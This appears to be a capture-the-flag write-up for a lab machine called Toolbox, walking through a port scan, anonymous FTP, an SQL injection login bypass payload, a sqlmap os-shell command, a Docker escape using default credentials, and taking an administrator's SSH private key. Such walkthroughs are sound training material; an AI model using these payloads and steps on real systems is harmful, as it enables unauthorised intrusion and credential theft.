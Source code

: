 # Toolbox

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.171
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 06:28 EDT
Nmap scan report for 10.129.96.171
Host is up (0.0079s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

### FTP Anonymous Access

We can login to FTP using `anonymous`, and find an `.exe` file:

```
$ ftp 10.129.96.171
Connected to 10.129.96.171.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.129.96.171:kali): anonymous
331 Password required for anonymous
Password: 
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||50028|)
150 Opening data channel for directory listing of "/"
-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe
226 Successfully transferred "/"
```

I don't know what this is for, but we'll keep this in mind for now.

### MegaLogistics

The HTTPS page shows a freight corporate page:

<figure><img src="../../../.gitbook/assets/image (453).png" alt=""><figcaption></figcaption></figure>

I took a look at the certificate, and found another subdomain.

<figure><img src="../../../.gitbook/assets/image (458).png" alt=""><figcaption></figcaption></figure>

Heading to `admin.megalogistic.com` reveals a login page:

<figure><img src="../../../.gitbook/assets/image (439).png" alt=""><figcaption></figcaption></figure>

Sending a single `'` reveals an SQL error.

<figure><img src="../../../.gitbook/assets/image (450).png" alt=""><figcaption></figcaption></figure>

So this is vulnerable to SQL Injection, and we can use `'OR 1=1 -- -` to bypass the login. On the admin dashboard, we see some stuff regarding credentials:

<figure><img src="../../../.gitbook/assets/image (446).png" alt=""><figcaption></figcaption></figure>

There wasn't much within the administrator panel for us to use, so let's go back to the SQL Injection and see if we can get a webshell via `sqlmap`.&#x20;

```bash
$ sqlmap -r req --force-ssl --os-shell
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] y
[06:37:40] [INFO] retrieved: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102...
command standard output: 'uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)'
```

This works, and we can get a webshell. The weird part is, this is a Windows machine and I ran `id` out of instinct. This means that the website and database are probably run within a Docker container. Anyways, we can get a reverse shell via a `bash` one-liner.&#x20;

<figure><img src="../../../.gitbook/assets/image (457).png" alt=""><figcaption></figcaption></figure>

I found the user flag within the `/var/lib/postgresql` folder:

<pre class="language-bash"><code class="lang-bash"><strong>$ find / -name 'user.txt' 2> /dev/null
</strong>/var/lib/postgresql/user.txt
</code></pre>

## Privilege Escalation

### Docker Escape

Earlier, we found that the administrator needs to send credentials to `tony` or something. Earlier, we found a `docker-toolbox.exe` file, and it is probably used to create this Docker.&#x20;

We can first figure out where other containers are located at via IP Address:

```
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.17.0.2  netmask 255.255.0.0  broadcast 172.17.255.255
        ether 02:42:ac:11:00:02  txqueuelen 0  (Ethernet)
        RX packets 3305  bytes 322116 (314.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1839  bytes 3722336 (3.5 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2042  bytes 635411 (620.5 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2042  bytes 635411 (620.5 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

I downloaded the `nmap` binary onto this machine via `curl`, and found that SSH was open on 172.17.0.1.&#x20;

```
postgres@bc56e3cc55e9:/tmp$ ./nmap 172.17.0.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-05-07 04:52 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.1
Host is up (0.00038s latency).
Not shown: 1205 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
443/tcp open  https
```

While Googling for `docker-toolbox` and `ssh`, I came across this StackOverflow question:

{% embed url="https://stackoverflow.com/questions/32027403/docker-toolbox-ssh-login" %}

I tried the password and username he specified (which looked default to me) and it worked:

<figure><img src="../../../.gitbook/assets/image (434).png" alt=""><figcaption></figcaption></figure>

On the docker, we can run `sudo su` to become `root`.

```
docker@box:~$ sudo -l                                                          
User docker may run the following commands on this host:
    (root) NOPASSWD: ALL
docker@box:~$ sudo su                                                          
root@box:/home/docker# id
uid=0(root) gid=0(root) groups=0(root)
```

### SSH Creds

Within `/`, I found a `/c` directory:

```
root@box:/# ls -la                                                             
total 244
drwxr-xr-x   17 root     root           440 May  7 04:37 .
drwxr-xr-x   17 root     root           440 May  7 04:37 ..
drwxr-xr-x    2 root     root          1420 May  7 04:34 bin
drwxr-xr-x    3 root     root            60 May  7 04:37 c
```

This is likely the Windows machine file system being mounted, and since we are `root`, we can go ahead and enumerate it.&#x20;

```
root@box:/c/Users/Administrator# ls -la                                        
total 1501
drwxrwxrwx    1 docker   staff         8192 Feb  8  2021 .
dr-xr-xr-x    1 docker   staff         4096 Feb 19  2020 ..
drwxrwxrwx    1 docker   staff         4096 May  7 04:33 .VirtualBox
drwxrwxrwx    1 docker   staff            0 Feb 18  2020 .docker
drwxrwxrwx    1 docker   staff            0 Feb 19  2020 .ssh
```

Within the `.ssh` file, we can find an `id_rsa` private key. Using that, we can `ssh` in as `administrator` on the main machine.

<figure><img src="../../../.gitbook/assets/image (437).png" alt=""><figcaption></figcaption></figure>
